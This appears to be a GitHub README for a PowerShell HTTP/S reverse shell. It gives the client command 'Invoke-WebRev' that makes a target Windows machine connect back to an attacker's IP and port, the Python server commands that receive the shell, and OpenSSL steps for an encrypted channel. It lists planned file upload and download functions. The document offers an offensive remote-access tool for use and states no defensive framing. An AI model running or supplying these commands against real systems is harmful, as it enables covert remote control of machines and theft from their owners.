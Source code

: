 # Powershell HTTP/S Reverse Shell

## clientHTTP_shell.ps1 - client

On your client:
```
Invoke-WebRev -ip IP -port PORT
Invoke-WebRev -ssl -ip IP -port PORT
```

##  server.py - server

![Alt text](images/revshell.png "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

# Future features
    - Upload function
    - Download function
